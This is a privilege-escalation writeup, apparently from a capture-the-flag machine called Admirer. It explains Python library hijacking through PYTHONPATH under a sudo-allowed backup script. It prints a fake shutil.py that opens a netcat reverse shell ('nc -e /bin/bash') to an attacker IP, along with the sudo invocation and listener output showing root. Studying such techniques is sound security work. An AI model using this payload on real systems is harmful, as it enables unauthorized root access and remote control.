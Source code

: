 ```yaml
---
title: Python Library Hijacking
author: 4m0r
date: 2020-08-01 20:00:00 +0530
excerpt: A writeup on how I hijacked a python library for privilege escalation and owned a machine.
thumbnail: /assets/img/posts/pyLibHijack/library.jpg
categories: [Tutorial]
tags: [Python, PYTHONPATH, Library Hijacking, Privilege Escalation]
---
```


![Info](/assets/img/posts/pyLibHijack/library.png)

# Scenario
One time I gained *user* shell on a machine and started poking around for a privilege escalation vector. I noticed that
the user had **sudo** privilege to run a bash script. Enumerating the script, I noticed that it executes a *Python* 
script, ***backup.py***. Therefore, any (malicious) code injected into the python script gets executed with **root**
privileges.

# Limitations
Unfortunately, write access for both the bash and python script files are restricted to *root* user and *admin* group.

# Library Hijacking
Enumerating the python script offered another vital vector. The contents of the python script read as follows.
```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
As seen from the code, the script imports a module called *make_archive* from the **shutil** library. An important thing
 to understand about Python is that, it imports modules by searching for them in pre-defined directories, in an order of 
priority and uses the first occurrence.

## Abusing Python Library Path with insecure permissions
The first thing I did was to find the library paths and their priority. This can be enumerated with the following command.
```shell
python -c 'import sys; print("\n".join(sys.path))'
```
The command echoed the library paths and they were compared against the actual path of *shutil.py* to identify an
injection point.
```shell 
waldo@admirer:/opt/scripts$ python -c 'import sys; print("\n".join(sys.path))'
/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages

waldo@admirer:/opt/scripts$ find /usr -type f -name shutil.py
/usr/lib/python3.5/shutil.py
/usr/lib/python2.7/shutil.py
```
Theoretically, if the user has write access to */usr/lib/python\[version]*, a duplicate library with the same name as 
the original and with malicious content can be placed there. Therefore, when the backup script is executed, this 
duplicate library and module gets presented as the first occurrence and subsequently gets executed. <br>
Unfortunately, the user I had access as, did not had write access on any of these directories. So I moved on to the 
next method.

## Abusing PYTHONPATH environment variable
PYTHONPATH[^f1] is an environment variable with which additional directories to search for Python modules can be
set. With this set, Python can be manipulated into directing the search for modules to a preferred location. To that 
effect, I then created a new directory, called **shutil** on the user's home directory. A malicious library file,
 **shutil.py**, to mimic the actual *shutil* library was placed on this new directory. The contents of the file 
 **shutil.py** is as follows.
```python
import os

def make_archive (aaa, bbb, ccc):

    os.system ("/bin/nc -e '/bin/bash' 10.10.10.9 9095")
```
Note that since we are mimicking the actual **make_archive** module, the number of arguments for this fake module should
 be the same as the original or else the function call from *backup.py* will fail with a *TypeError*. When the bash 
script is executed with sudo, the malicious **make_archive** is executed with root privileges, resulting in an elevated
 reverse shell. 

In my PenTest scenario, I gained reverse shell with PYTHONPATH as shown below.
```shell 
---TARGET---
waldo@admirer:~/shutil$ sudo PYTHONPATH=/home/waldo/shutil /opt/scripts/admin_tasks.sh
---ATTACKER---
[_4m0r@manjaro Admirer]$ nc -nvlp 9095
Connection from 10.10.10.10:50634
python -c "import pty;pty.spawn('/bin/bash');"
root@admirer:/home/waldo/shutil# id
id
uid=0(root) gid=0(root) groups=0(root)
```

# Takeaway
During privilege escalation enumeration, if you were to come across a Python script with elevated execution privileges
and uses misconfigured python libraries, it can be leveraged to a *root* shell by hijacking the library path.

# Footnotes
[^f1]:[PYTHONPATH](https://docs.python.org/3/using/cmdline.html#environment-variables)